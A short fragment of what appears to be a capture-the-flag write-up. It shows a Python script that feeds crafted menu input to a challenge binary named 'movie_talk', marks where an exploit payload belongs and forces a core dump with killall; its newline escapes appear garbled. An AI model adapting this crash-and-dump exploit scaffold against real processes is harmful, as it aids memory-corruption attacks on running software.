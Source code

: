 and simple exploit to crash process (enable core dump):

<pre class="brush: plain; title: ; notranslate" title="">#!/usr/bin/env python
import  subprocess
import  time
import  os

proc = subprocess.Popen("./movie_talk",
                       shell=False,
                       stdin=subprocess.PIPE);

proc.stdin.write("1n" + "a"*16+"n"+"0n0n");
proc.stdin.write("1n" + "a"*16+"n"+"0n0n"); &lt;-- payload goes here
time.sleep(3);
os.system("killall -3 movie_talk");
proc.stdin.write("3n");
proc.stdin.write("4n");
proc.wait();

</pre>
